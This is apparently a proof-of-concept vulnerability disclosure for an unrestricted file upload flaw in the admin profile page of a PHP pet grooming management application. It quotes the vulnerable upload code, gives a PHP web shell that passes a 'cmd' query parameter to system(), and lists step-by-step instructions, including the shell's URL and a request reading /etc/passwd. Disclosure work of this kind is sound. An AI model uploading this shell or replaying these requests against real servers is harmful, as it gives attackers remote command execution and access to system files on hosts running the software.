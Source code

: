 # Proof of Concept – Unrestricted File Upload in Pet Grooming Management System (RCE)
### Summary

The Pet Grooming ERP application contains an Unrestricted File Upload vulnerability in the admin/profile.php module.
An authenticated attacker can upload arbitrary files, including PHP code, instead of restricted image files. This results in Remote Code Execution (RCE) on the hosting server.

*Source Code:* [Pet Grooming Management v.1](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

**Evidence:**
![](./evidence1.png)


### Root Cause
The application only applies client-side restrictions (accept="image/jpeg/png") and does not enforce proper server-side validation of uploaded files.
The following code demonstrates the weakness:

```php
$target_dir = "../assets/uploadImage/Profile/";
$website_logo = basename($_FILES["website_image"]["name"]);
$image = $target_dir . basename($_FILES["website_image"]["name"]);

if (move_uploaded_file($_FILES["website_image"]["tmp_name"], $image)) {
    @unlink("../assets/uploadImage/Profile/".$_POST['old_website_image']);
}
```


**❌ No server-side verification of extension, MIME type, or file content is performed.**

---

## Exploitation Proof of Concept
### Step 1 – Upload Payload

Submit the following file via the Profile Update form (website_image parameter):
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

### Step 2 – Locate File

The file is written to:
```php
/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php
```

Accessible at:

```http://<host>/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php```

### Step 3 – Remote Command Execution

Request the uploaded file with the cmd parameter:

```http://<host>/petgrooming_erp/pet_grooming/assets/uploadImage/Profile/shell.php?cmd=cat /etc/passwd```

### Example Output:

![](./evidence2.png)

